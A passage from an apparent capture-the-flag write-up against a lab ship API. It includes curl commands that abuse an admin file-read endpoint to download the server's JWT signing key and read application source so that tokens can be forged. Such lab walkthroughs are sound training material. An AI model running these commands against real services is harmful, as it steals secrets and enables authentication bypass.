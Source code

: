 ```python
    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:
        if isinstance(v, str) and not v.startswith("["):
            return [i.strip() for i in v.split(",")]
        elif isinstance(v, (list, str)):
            return v
        raise ValueError(v)

    SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///navalship.db"

    class Config:
        case_sensitive = True


settings = Settings()
```

Since we need to modify the token, we need the signing key, so let's save it.

```console
$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/app/shipapi/appconfig/jwtsigning.key"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq -r .file > jwtsigning.key
```

Before tampering the token let's just check the code for the admin endpoint to make sure how the flag is protected.

```console
$ curl -s -H "Authorization: Bearer $admintoken" -H "Content-Type: application/json" -d '{"file":"/app/shipapi/api/v1/endpoints/admin.py"}' http://universal-ship-api.cns-jv.tcc/api/v1/admin/file | jq -r .file
```

```python
import asyncio

from fastapi import APIRouter, Depends, HTTPException, Query, Request
from sqlalchemy.orm import Session
from typing import Any, Optional

from shipapi import crud
from shipapi import deps

from shipapi import schemas

from shipapi.schemas.admin import GetFile
from shipapi.schemas.user import User
import requests

router = APIRouter()


@router.get("/", status_code=200)
def admin_check(
        *,
        current_user: User = Depends(deps.parse_token),
        db: Session = Depends(deps.get_db)
) -> dict:
    """
    Returns true if the user is in admin role
    """
    if current_user['admin']:
        return {"results": True}

    return {"results": False}

```

[jwt_tool]: https://github.com/ticarpi/jwt_tool
[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj